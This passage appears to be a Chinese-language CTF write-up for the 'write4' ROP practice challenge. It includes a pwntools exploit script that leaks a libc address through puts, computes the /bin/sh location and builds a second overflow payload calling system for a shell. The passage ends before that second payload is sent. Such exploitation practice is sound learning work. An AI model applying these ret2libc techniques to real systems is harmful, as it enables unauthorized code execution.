 > 该案例用于练习查找gadget控制寄存器和进一步控制写内存。
>
> 早期的write4还有一种解法如下，但已经不适用于最新版本，最新版本write4中没有可供leak的函数调用
>
> - 构造info leak代码段(如write、puts、printf等)
>
> - 计算lib_base
>
> - 构造第二次栈溢出，完成getshell操作

```
#!/usr/bin/env python
# coding=utf-8

from pwn import *

context.log_level = 'debug'

elf = ELF("./write4")
libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")
pwnme_addr = 0x4007B5
pop_rdi_ret = 0x400893

puts_plt = elf.plt['puts']
puts_got = elf.got['puts']
system_plt = elf.plt['system']

puts_offset = libc.symbols['puts']
binsh_offset = libc.search("/bin/sh").next()

io = process("./write4")
io.recvuntil(">")

pay = ''
pay += 'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBBBB'
pay += p64(pop_rdi_ret)
pay += p64(puts_got)
pay += p64(puts_plt)
pay += p64(pwnme_addr)

# with open("payload","wb") as payload:
# 	payload.write(pay)

#gdb.attach(io)
pause()
io.sendline(pay)

puts_addr = u64(io.recvuntil("Go")[1:7]+'\x00'*2)

binsh_addr = (puts_addr-puts_offset)+binsh_offset

log.info("puts_addr: 0x%x" % puts_addr)
log.info("binsh_addr: 0x%x" % binsh_addr)

io.recvuntil(">")

pay = ''
pay += 'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBBBB'
pay += p64(pop_rdi_ret)
pay += p64(binsh_addr)
pay += p64(system_plt)
pay += "B"*8


```